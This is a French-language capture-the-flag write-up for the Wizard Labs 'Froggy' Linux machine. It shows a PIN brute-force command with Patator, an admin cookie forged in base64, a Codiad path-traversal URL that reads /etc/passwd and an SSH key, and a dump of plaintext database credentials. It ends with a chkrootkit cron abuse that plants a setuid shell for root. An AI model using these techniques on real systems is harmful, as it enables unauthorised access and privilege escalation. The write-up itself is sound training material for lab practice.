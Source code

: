 ```yaml
---
title: Solution du CTF Froggy de Wizard Labs
tags: [CTF, WizardLabs]
---
```


Froggie jumped all over the stage that day
------------------------------------------

*Froggy* est un CTF basé Linux proposé sur la plateforme *Wizard Labs*.  

Via un buster avec une liste assez large de paths potentiels on trouve différents dossiers mais surtout une zone membre :  

```plain
/images (Status: 301)
/thumbnail (Status: 301)
/server-status (Status: 403)
/grid (Status: 301)
/memberarea (Status: 301)
```

dans cette zone on peut trouver des pages PHP mais elles nécessitent une authentification :  

```plain
/index.php (Status: 200)
/login.php (Status: 200)
/register.php (Status: 200)
/test.php (Status: 200)
/update.php (Status: 302)
/database (Status: 301)
/logout.php (Status: 302)
/config.php (Status: 200)
/forgot.php (Status: 200)
/editor (Status: 301)
/dashboard.php (Status: 302)
/remove.php (Status: 200)
```

Le script *forgot.php* correspond évidemment à un script de récupération de mot de passe. Il est tout de même assez inhabituel puisqu'il ne demande qu'un PIN.  

Partant du principe qu'un PIN est généralement numérique on peut utiliser Patator pour trouver les PIN qui ne sont pas invalides :  

```bash
patator http_fuzz url='http://10.1.1.56/memberarea/forgot.php' method=POST body='forgotpass=Check&secretpin=RANGE0' 0=int:0-10000 -x ignore:fgrep='Sercet pin not matched'
```

NB: la typo fait partie du challenge.  

Avec un PIN de 0 on obtient un message différent : *Please enter your secret pin to view your password.*  

Hmmm étrange mais pas vraiment utile :-/   

Puisque le site le permet j'ai créé un compte dans cette zone membre et une fois connecté on peut clairement voir un cookie nommé *membersession* qui contient le base64 correspondant au compte que je viens de créer (*devloop*).  

Il suffit d'éditer le cookie pour y mettre le base64 de *admin* puis on retourne sur le dashboard qui nous livre ses secrets :  

> Welcome admin  
> 
>   
> 
> Your Notes : Need to beautify our gallery using '83VbbDGjefTnM9wQ' as Password

Codiadwnage
-----------

Où utiliser ces identifiants ?  

Toujours sous */memberarea* on trouve un dossier nommé *editor* qui est un IDE web baptisé [Codiad](http://codiad.com/).  

Pas grand chose d'intéressant à y voir une fois connecté, toutefois ce soft semble vulnérable :  

```plain
$ searchsploit codiad
----------------------------------------- ----------------------------------------
 Exploit Title                           |  Path
                                         | (/usr/share/exploitdb/)
----------------------------------------- ----------------------------------------
Codiad 2.4.3 - Multiple Vulnerabilities  | exploits/php/webapps/35585.txt
Codiad 2.5.3 - Local File Inclusion      | exploits/php/webapps/36371.txt
----------------------------------------- ----------------------------------------
Shellcodes: No Result
```

La faille d'inclusion locale est très facile à exploiter :  

```plain
http://10.1.1.56/memberarea/editor/components/filemanager/download.php?path=../../../../../../../../../../../etc/passwd&type=undefined
```

On note la présence de deux utilisateurs :  

```plain
sysadm:x:1001:1001:,,,:/home/sysadm:/bin/bash
ahmed:x:1002:1002:,,,:/home/ahmed:/bin/bash
```

La clé privée SSH de *ahmed* est récupérable et nous permet d'obtenir notre shell ainsi que le premier flag :)  

On reçoit aussi une notification de réception d'un email :  

```plain
You have mail.
Last login: Sat Feb 23 10:27:50 2019 from 192.168.0.30
ahmed@froggy:~$ mail
-bash: mail: command not found
ahmed@froggy:~$ ls /var/spool/mail
ahmed
ahmed@froggy:~$ ls /var/spool/mail/ahmed
/var/spool/mail/ahmed
ahmed@froggy:~$ ls /var/spool/mail/ahmed  -lh
-rwx------ 1 ahmed ahmed 367 Feb 22 14:56 /var/spool/mail/ahmed
ahmed@froggy:~$ cat /var/spool/mail/ahmed
From: SysAdmin <sysadm@localhost.localdomain>
To: Ahmed <ahmed@localhost.localdomain>
Subject: Vulnerable Program

Dear Ahmed !

While I was visiting some hacker websites I discovered an "public exploit " for our anti-rootkit utility ...

It's surely disappointing for us but I did my best to make the exploit unusable for any attacker .

Your Lovely SysAdmin  !!
```

Cuisses de grenouilles
----------------------

Au début je me suis dirigé vers l'idée d'un script custom à exploiter, j'ai donc fouillé un droite à gauche.  

L'utilisateur *sysadm* ne dispose d'aucun fichier vraiment intéressant.  

Après avoir récupéré les identifiants SQL j'ai trouvé le mot de passe admin de la zone membre ainsi que les PINs, ce qui explique le message de tout à l'heure.  

```plain
$ mysql -u membership -p member
Enter password:
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 50060
Server version: 10.1.37-MariaDB-0+deb9u1 Debian 9.6

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [member]> show tables;
+------------------+
| Tables_in_member |
+------------------+
| pdo              |
+------------------+
1 row in set (0.00 sec)

MariaDB [member]> select * from pdo;
+----+----------+----------+------------------+-----------+
| id | fullname | username | password         | secretpin |
+----+----------+----------+------------------+-----------+
|  1 | admin    | admin    | Gw-LfcrjC-4hr6>g |         0 |
|  2 | test     | test     | test             |         0 |
|  3 | devloop  | devloop  | devloop          |    123456 |
+----+----------+----------+------------------+-----------+
3 rows in set (0.26 sec)
```

Je suis alors parti sur l'idée que *chkrootkit* soit exécuté via un *crontab* puisque je savais qu'une faille existait pour ce logiciel (forcément ça en a fait rigoler quelques-uns).  

Le binaire est bien présent sur le système mais est-il exécuté ? J'ai eu recours une nouvelle fois à mon script de surveillance des process ([voir CTF Homeless]({% link _posts/2018-02-23-Solution-du-CTF-Homeless-de-VulnHub.md %})) :  

```bash
23961 root /usr/sbin/CRON -f
23962 root /bin/sh -c    chkrootkit
23963 root /bin/sh /usr/bin/chkrootkit
24205 root /bin/echo -n Checking `inetd'...
24466 root grep -E check_global_passwd|panasonic|satori|vejeta|\.ark|/hash\.zk
24492 root /bin/ps auwx
24493 root grep -E xinetd
24494 root grep -E -v grep
24589 root /usr/bin/find /dev /tmp /lib /etc /var ( -name tcp.log -o -name .linux-sniff -o -name sniff-l0g -o -name core_ )
24610 root find /lib /usr/lib /usr/local/lib -name libproc.a
24643 root /usr/bin/find /usr/lib /lib -name .[A-Za-z]* -o -name ...* -o -name .. *
24654 root /usr/bin/find /usr/lib /lib -type d -name .*
24695 root /usr/bin/find /usr/lib -name last.cgi
24708 root /usr/bin/find /usr/lib /usr/bin -name red.tar -o -name start.sh -o -name klogd.o -o -name 0anacron-bak -o -name adore
24777 root /bin/sh /usr/bin/chkrootkit
24778 root /usr/bin/strings /sbin/init
24779 root grep -E HOME
24856 root /bin/sh /usr/bin/chkrootkit
24857 root /usr/bin/find /tmp /var/tmp -type f -exec head -n 1 {} ;
24858 root grep -E #!.*php
25025 root /bin/sh /usr/bin/chkrootkit
25026 root find /proc
25027 root wc -l
```

L'exploit présent [sur exploit-db](https://www.exploit-db.com/exploits/33899) indique que chkrootkit va exécuter les scripts présents dans la variable *SLAPPER\_FILES*.  

L'exploit donnait un exemple avec le script */tmp/update* donc au début je ne suis pas allé plus loin mais voyant que rien ne s'exécutait j'ai regardé le code (chkrootkit est écrit en bash) et la liste variable était différente :  

```bash
SLAPPER_FILES="${ROOTDIR}dev/shm/slapper"
```

J'ai donc écrit un script bash à cet emplacement :  

```bash
#!/bin/bash
cp /bin/dash /tmp/devloop_was_here
chmod 4755 /tmp/devloop_was_here
```

Cette fois notre script est bien exécuté:  

```bash
2890 root /bin/sh /usr/bin/chkrootkit
2891 root /usr/bin/find /tmp /var/tmp -type f -exec head -n 1 {} ;
2892 root grep -E #!.*php
2937 root /bin/netstat -an
2938 root grep -E ^tcp.*LIST|^udp
2939 root grep -E [.:]145[^0-9.:]
--- snip ---
3041 root /bin/netstat -an
3042 root grep -E ^tcp.*LIST|^udp
3043 root grep -E [.:]47889[^0-9.:]
3062 root /bin/sh /usr/bin/chkrootkit
3063 root find /proc
3064 root wc -l
3130 root /bin/bash /dev/shm/slapper
3131 root [cp]
3133 root [chmod]
```

```plain
$ ./devloop_was_here
# cd /root
# ls
proof.txt  root.txt
# cat root.txt
5bbfc6a26697caaaa66b1eefb8d3a1a0699ab51c
```


*Published May 21 2019 at 18:09*
